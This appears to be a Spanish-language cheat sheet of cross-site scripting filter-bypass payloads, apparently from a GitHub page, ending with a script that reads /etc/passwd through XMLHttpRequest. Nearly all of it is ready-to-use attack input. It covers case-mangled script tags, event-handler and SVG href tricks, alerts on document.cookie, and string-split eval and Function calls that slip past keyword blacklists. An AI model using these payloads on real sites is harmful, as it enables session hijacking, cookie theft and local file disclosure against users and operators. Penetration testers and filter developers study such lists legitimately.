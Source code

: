 Case sensitive:

```javascript
<sCrIpt>alert(1)</ScRipt>
```

tag blacklist:

```javascript
<script x>
<script x>alert('XSS')<script y>
```

tag personalizada:

```
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

XSS reflejado con controladores de eventos y atributos href bloqueados

```
<svg><a><animate+attributeName=href+values=javascript:alert(1) /><text+x=20+y=20>Click me</text></a>
```

Omitir lista negra de palabras con evaluación de código:

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;

```

Bypass con un tag html inCompleto:

```html
<img src='1' onerror='alert(0)' <
```

Bypass de comillas en string:

```javascript
String.fromCharCode(88,83,83)

```

Para mas bypasses:

[Mas Bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads)

## XSS A LFI

```javascript
<script> 
	x=new XMLHttpRequest; 
	x.onload=function(){ 
		document.write(this.responseText) 
	}; 
	x.open("GET","file:///etc/passwd"); 
	x.send(); 
</script>
```
